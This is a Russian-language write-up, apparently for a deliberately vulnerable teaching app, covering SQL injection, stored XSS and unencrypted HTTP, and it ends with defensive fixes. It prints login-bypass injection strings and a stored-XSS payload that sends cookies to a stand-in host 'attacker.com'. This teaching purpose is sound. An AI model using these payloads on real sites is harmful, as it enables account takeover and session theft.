 
## Уязвимость 1: SQL Injection

### Описание

SQL Injection (SQL-инъекция) — это уязвимость, которая позволяет злоумышленнику выполнять произвольные SQL-запросы к базе данных, вводя специальные символы и SQL-код в форму или URL. В нашем коде уязвимость присутствует в запросах к базе данных, где пользовательский ввод напрямую используется для формирования SQL-запросов, например, в функциях авторизации и поиска пользователя.

### Эксплуатация

1. **Авторизация с SQL-инъекцией:**
   - Зайдите на страницу авторизации и введите следующие данные:
     - **Имя пользователя**: `admin' OR '1'='1`
     - **Пароль**: `password`
   - Запрос, сформированный в базе данных, будет выглядеть так:
     ```sql
     SELECT * FROM users WHERE username='admin' OR '1'='1' AND password='password'
     ```
   - Из-за `OR '1'='1'` запрос вернёт первую запись в таблице `users`, позволяя авторизоваться без ввода корректного пароля.

2. **Поиск пользователя с SQL-инъекцией:**
   - Зайдите на главную страницу, выполните поиск и введите в поле поиска: `%' OR '1'='1`.
   - Это даст следующий запрос:
     ```sql
     SELECT * FROM users WHERE username LIKE '% %' OR '1'='1'
     ```
   - Условие `OR '1'='1'` вернёт все записи в таблице `users`, независимо от введённого имени пользователя.

3. **Опасность SQL-инъекции:**
   - SQL Injection может позволить злоумышленнику:
     - **Получить доступ к конфиденциальным данным**, таким как логины и пароли пользователей.
     - **Изменить данные**: добавить, изменить или удалить записи в базе данных.
     - **Удалить или разрушить базу данных**: с помощью команды `DROP TABLE`, что полностью разрушит структуру базы данных.
     - **Получить контроль над сервером**: некоторые SQL-инъекции могут быть использованы для выполнения команд на сервере, в случае, если злоумышленник получит доступ к системным функциям базы данных.

---

## Уязвимость 2: Stored XSS (Хранимая межсайтовая скриптовая инъекция)

### Описание

Stored XSS — это тип межсайтовой скриптовой инъекции, при котором вредоносный скрипт сохраняется на сервере и отображается для других пользователей. В нашем случае это достигается через форму отправки сообщений. Сообщения сохраняются без фильтрации HTML-кода, поэтому вредоносный JavaScript-код можно вставить прямо в сообщение, и при его отображении на странице он будет исполнен в браузере других пользователей.

### Эксплуатация

1. **Внедрение вредоносного скрипта:**
   - Зайдите на главную страницу, в поле для отправки сообщений введите следующий код:
     ```html
     <script>alert('XSS-атака!');</script>
     ```
   - Нажмите на кнопку «Post Message».
   - Этот скрипт будет сохранён в базе данных и отображён на странице без фильтрации. При просмотре страницы каждый пользователь увидит сообщение и в его браузере выполнится команда `alert`.

2. **Последствия Stored XSS:**
   - **Кража сессий**: злоумышленник может получить доступ к данным сессии других пользователей. Например, если они внедрят код для отправки cookies на свой сервер:
     ```html
     <script>fetch('http://attacker.com/steal?cookie=' + document.cookie);</script>
     ```
   - **Фишинг**: внедрение форм или перенаправлений для кражи личной информации.
   - **Обход авторизации**: злоумышленник может заставить пользователя выполнить произвольные действия от его имени.
   - **Распространение атак**: при публикации вредоносного скрипта на общей странице он будет отображаться каждому пользователю, увеличивая охват атаки.

---

## Уязвимость 3: Использование незащищённого HTTP

### Описание

Использование незащищённого HTTP-протокола означает, что данные передаются в виде обычного текста, без шифрования. Это позволяет злоумышленникам, перехватившим трафик (например, через публичный Wi-Fi), увидеть всю передаваемую информацию, включая логины, пароли и cookies сессии.

### Эксплуатация

1. **Перехват трафика через незащищённый HTTP (SOON REALIZ)**:
   - Злоумышленник может использовать инструмент перехвата трафика, такой как Wireshark, чтобы увидеть передаваемые данные.
   - В момент ввода логина и пароля злоумышленник может перехватить передаваемые данные и получить доступ к данным пользователя.
   - Cookie также передаются через HTTP без шифрования, что позволяет злоумышленнику скопировать идентификатор сессии и использовать его для входа от имени пользователя.

2. **Последствия использования незащищённого HTTP(SOON REALIZ)**:
   - **Кража логинов и паролей**: все данные передаются в открытом виде и могут быть перехвачены.
   - **Угон сессии(SOON REALIZ)**: перехваченные cookies позволяют злоумышленнику выполнять действия от имени пользователя, пока его сессия активна.
   - **Доступ к конфиденциальной информации(SOON REALIZ)**: при отправке данных, таких как личные сообщения, адреса и другие, они также могут быть перехвачены и использованы злоумышленником.

---

## Заключение

Эти уязвимости демонстрируют, как слабая защита данных и отсутствие фильтрации вводимой информации может привести к серьёзным последствиям. Вот несколько практик, которые могут помочь предотвратить эти уязвимости:

1. **Защита от SQL-инъекций**:
   - Используйте параметризованные запросы и ORM-библиотеки (например, SQLAlchemy).
2. **Защита от XSS**:
   - Фильтруйте или экранируйте пользовательский ввод с помощью `html.escape()`.
3. **Шифрование трафика**:
   - Обеспечьте HTTPS-соединение, установив SSL/TLS-сертификат на сервере.
